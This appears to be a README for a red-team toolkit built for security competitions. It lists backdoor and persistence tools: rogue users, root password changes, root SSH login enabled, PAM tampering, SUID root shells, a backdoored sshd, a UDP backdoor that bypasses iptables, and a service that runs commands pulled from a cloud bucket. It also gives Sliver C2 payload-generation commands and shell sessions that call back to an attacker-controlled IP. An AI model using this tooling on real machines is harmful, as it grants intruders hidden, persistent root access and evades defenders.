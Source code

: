 A collection of scripts that would be useful in during certain security contests.

!! Make sure to change the IP in Beachhead/watershell.sh to your IP if you dont want it going to a team server as well as run `python3 -m http.server 80` while in the UnnamedSecurityContest root

!! Make sure to alos change the IP in Beachhed/sliver.sh to be your IP if you dont want it going to a team server. You will also need to put a payload in Beachhead_source/sliverPayloads.

!! Change the ip on phpUDP as well

The Private SSH key loaded will be distributed through another channel.

!! Beachhead - Install many access points - requires root access
 * adduser - Creates user scoring:redteam123
 * aptAPT - Installs several apt pre-execution scripts.  
   * changes the root password to redteam123
   * Modifies /etc/sshd/sshd_config to allow password login
   * Modifies /etc/sshd/sshd_config to allow remote root login
   * Loads a known SSH pubkey into authorized keys.
 * mksuidshell - Compiles a SUID shell and places it as /usr/bin/sushi, /usr/bin/bash, nologin, sh
 * PAMswap - Copies the PAM permit object over the deny object making failed logins work.
 * phonehome - Installs a debian package, which installs a go binary as a systemd service that runs whatever command is posted in a google cloud bucket.
 * watershell - Runs a watershell backdoor on port 1337
 * suid - Creats a bin at /usr/bin/croissant with suid giving root shell
 * itablesflush - Creates a cron to flush IP tables
 * hidetraffic - Patches severals bins to hide red team traffic

!! Compiled Binaries
  * sshd - backdoored sshd daemon.  remote root login always allowed, password "redteam" accepted for any user.
  * ssh - client to activate a secondary backdoor which doesn't log logins.  https://github.com/Psmths/openssh-backdoor
  * sushi - precompiled suid shell
  * suidrun - runs the command pass as root (suitable for webshells) e.g. suidrun /bin/touch /tmp/win
  * watershell - a udp backdoor that bypasses iptables 

!! Runners - Utilities to execute other scripts
  * attack_linux_w_su.py - Connects to a box with one user, su's to another user, executes all scripts in a tar.gz.  The scripts should be within a directory named 'remote'.  Requires python paramiko.  Requires a remote.sh to execute all the scripts.
  * attack_linux_w_sudo.py - Connects to a box with one user, executes all scripts in a tar.gz using sudo.  The scripts should be within a directory named 'remote'.  Requires python paramiko.
  * attack_master.py Loops through a file executing each command
  * a list of commands to be executed.  likely calling attack_linux...

!! Sliver Commands
  * `generate --mtls 10.10.1.34 --save /root/UnnamedSecurityContest/Beachhead_source/sliverPayloads/ --os linux`
  * `generate beacon --mtls 10.10.1.34 --save /root/UnnamedSecurityContest/Beachhead_source/sliverPayloads/ --os linux`

!! Watershell Commands
  * ```
  ┌──(root㉿dragon)-[~/UnnamedSecurityContest/Beachhead_source/watershell-tcp]
  └─# python3 watershell-cli.py -t 10.10.1.36 -p 1337 -c id
  Connecting to Watershell on ('10.10.1.36', 1337)...
  Connected!
  uid=0(root) gid=0(root) groups=0(root)
  ```
!! PHP UDP Commands
  * ```
  ┌──(root㉿dragon)-[~/UnnamedSecurityContest/Beachhead]
└─# nc -u 10.10.1.36 10000
ip 10.10.1.34
10.10.1.34
port 9001
9001
status
IP: 10.10.1.34 Port: 9001
execute

```